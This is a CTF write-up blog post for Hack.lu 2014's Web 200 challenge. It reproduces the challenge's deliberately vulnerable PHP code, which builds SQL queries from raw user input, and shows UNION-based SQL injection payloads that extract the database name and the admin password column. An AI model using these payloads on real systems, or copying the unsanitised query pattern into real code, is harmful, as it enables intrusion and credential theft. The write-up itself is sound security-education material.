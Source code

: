 ```yaml
---
layout: post
title: "Hack.lu CTF 2014: Web 200 - Killy The Bit"
date: 2014-10-24 11:04:06.000000000 +05:30
type: post
published: true
status: publish
author: Nagesh Podilapu a.k.a H4rryp0tt3r
assetID: 3caacfca488c02e06aecaa04d7a52eb5
---
```


{% include image.html url="/assets/3caacfca488c02e06aecaa04d7a52eb5/killy.jpg" description="Challenge Description" %}

In this challenge they provided a link to website Royal Bank of Fluxembourg and it's source.

{% include image.html url="/assets/3caacfca488c02e06aecaa04d7a52eb5/front.jpg" description="Front page of the challenge webpage" %}

Source code of the given webpage

{% highlight php %}
<?php
include 'config.php';

echo "<html><head><style type='text/css'><!-- body {background-image: url(bg.jpg);background-repeat: no-repeat;height: Percent;width: Percent; background-size: cover;}//--></style> <title>Royal Bank of Fluxembourg</title></head></html>";

<!-- blind? we will kill you -->
if(isset($_GET['name']) && $_GET['name']!='' && !preg_match('/sleep|benchmark|and|or|\||&/i',$_GET['name'])) {
    $res = mysql_query("SELECT name,email FROM user where name='".$_GET['name']."'");

    if(mysql_fetch_object($res)) {
        // Generation of new password
        //<topsecure content>
        // this was filtered during the creation of the phps file
        //</topsecure content>
        die("A new password was generated and sent to your email address!");
    } else {


    $res = mysql_query("SELECT name,email FROM user where name sounds like '".$_GET['name']."'");

        if(mysql_fetch_object($res)) {
            echo "We couldn't find your username, but it sounds like this user:<br>";
        } else {
            die("We couldn't find your username!<br>Are you sure it is ".htmlspecialchars($_GET['name'],ENT_QUOTES, 'utf-8')."?");
        }
        $res = mysql_query("SELECT name,email FROM user where name sounds like '".$_GET['name']."'");

        while($row = mysql_fetch_object($res)) {
           echo $row->name;
           echo "<br>";
        }
    }
} else {

echo "<div style='width:800px; margin:0 auto;'><hr><h1><center>Royal Bank of Fluxembourg<center></h1><hr><br><br>Dear users,<br>We were hacked by Killy the Bit! Please use this site to generate your new password. Login will be available on the 23.10.2014 10:01 CEST<br><br><br></div>";
     echo '<div style="width:400px;margin:0 auto;"<pre><img src=wanted.png></img></pre><br><br>';
    echo '<form action="#" method="get">Please enter your username: <br><input type="text" name="name"><br><input type="submit" name="submit" value="Generate"></form></div>';
}
?>
{% endhighlight %}

After having a glance at the given code, we found that challenge Author used `where name=` in one query and `where name sounds like` in other query. So we have to exploit this challenge with the help of sounds like query.

I submitted `admia` as username so 1st query returns no results so we will move to else part of the code where sounds like query returns 1 row because admin just sounds like `admia`.

Then I quickly applied this payload

{% highlight text %}
admia' UNION select database(),2 LIMIT 1,2 --
Note: There is a whitespace after `--` in the query.
{% endhighlight %}

Results in
{% highlight text %}
We couldn't find your username, but it sounds like this user: ctf-level
{% endhighlight %}

Now we know the database name is ctf-level. And table name in `user` we can see it in given source code. And after some time admin gave a hint that password column name is `passwd`. So I made a query like this

{% highlight text %}
admia' UNION select passwd,2 from user where name='admin' LIMIT 1,2 --
Note: There is a whitespace after '--' in the query.
{% endhighlight %}

Which Results in
{% highlight text %}
We couldn't find your username, but it sounds like this user:
flag{Killy_The_Bit_Is_Wanted_for_9000_$$_FoR_FlipPing_Bits}
{% endhighlight %}

{% include image.html url="/assets/3caacfca488c02e06aecaa04d7a52eb5/flag.jpg" description="Flag being displayed in webpage" %}

Voila!! [r3b00+](https://ctftime.org/team/4882){:target="_blank"} awarded 200 pts

Thanks for Reading.. Feel free to comment :)
